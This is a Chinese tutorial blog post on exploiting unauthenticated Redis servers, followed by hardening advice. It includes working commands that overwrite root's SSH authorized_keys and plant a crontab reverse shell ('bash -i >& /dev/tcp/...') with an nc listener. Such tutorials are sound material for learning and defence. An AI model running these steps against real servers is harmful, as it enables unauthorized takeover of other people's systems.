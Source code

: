 ```yaml
---
title: Redis 未授权漏洞简介
published: 2018-07-25 00:00:00
tags:
  - Redis
  - CTF
---
```


本文仅供学习交流使用，切勿用于非法用途

## redis 概述

Redis 是一个开源（BSD 许可）的，内存中的数据结构存储系统，它可以用作数据库、缓存和消息中间件。

redis 协议使用符号前缀标识数据类型

> In RESP, the type of some data depends on the first byte:
>
> - For Simple Strings the first byte of the reply is "> +"
> - For Errors the first byte of the reply is "-"
> - For Integers the first byte of the reply is ":"
> - For Bulk Strings the first byte of the reply is "\$"
> - For Arrays the first byte of the reply is "\*"

## 常用命令

- `GET key`获取 key 值
- `SET key value [expiration EX seconds|PX milliseconds] [NX|XX]` 将键 key 设定为指定的字符串值，覆盖旧值和过期时间
  - EX seconds – 设置键 key 的过期时间/秒
  - PX milliseconds – 设置键 key 的过期时间/毫秒
  - NX – 只有键 key 不存在的时候才会设置 key 的值
  - XX – 只有键 key 存在的时候才会设置 key 的值
- `DEL key [key ...]`删除指定 key 的值，返回删除的 key 的数量
- `KEYS pattern`查找所有符合给定模式 pattern（正则表达式）的 key
- `INFO`返回关于 Redis 服务器的各种信息和统计数值
- `CONFIG GET parameter`读取 redis 服务器的配置文件参数
- `CONFIG SET parameter`设置 redis 服务器的配置文件参数
- `SAVE`将数据保存到磁盘
- `FLUSHDB`删除当前数据库里面的所有数据
- `AUTH password`密码认证

## 未授权利用

- 利用前提：目标机器 redis 端口暴露，未设置密码（或仅设置弱密码）且 redis 运行在高权限用户
- 利用原理：redis 提供的 config 命令可以修改数据文件的位置，通过将自己的公钥写入 redis，然后修改数据文件保存位置，覆盖`~/.ssh/authorized_keys`可以获得服务器访问权限
- 利用过程

```bash
# 连接 redis 默认端口
nc 192.168.1.1 6379

# 尝试查看 redis 信息 提示未认证
info
-NOAUTH Authentication required.

# 认证
auth ${PASSWORD}
+OK

# 查看当前目录
config get dir
*2
$3
dir
$19
/var/lib/redis/6379

# 查看数据文件名
config get dbfilename
*2
$10
dbfilename
$8
dump.rdb

# 设置 x 的值为公钥
set x "\n\n\nssh-rsa AAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n\n\n"
+OK

# 修改目录为 /root/.ssh
config set dir /root/.ssh/
+OK

# 修改数据文件为 authorized_keys
config set dbfilename authorized_keys
+OK

# 保存数据
save
+OK

# 删除 x 的值
del x
:1

# 关闭连接
quit
+OK
```

在 crontab 里写入反弹 shell 同样能够获取目标机器权限

```bash
# 在 crontab 里写入反弹 shell
set x "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.1.1/8888 0>&1\n\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

之后在本机监听端口即可

```
# 本地监听
nc -lvnp 8888

# 查看crontab任务
crontab -l
```

## 防护方式

- 使用强密码`requirepass XXXXXXXXX`
- 关闭外网访问`bind 127.0.0.1`
- 修改默认的端口，一定程度上避免被扫描
- 使用低权限用户启动 redis
- 在 redis.conf 禁用高危命令

```
rename-command FLUSHALL ""
rename-command FLUSHDB ""
rename-command CONFIG ""
rename-command EVAL ""
```

## 参考文献

- [redis](https://redis.io)
- [Redis 未授权访问配合 SSH key 文件利用分析](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)
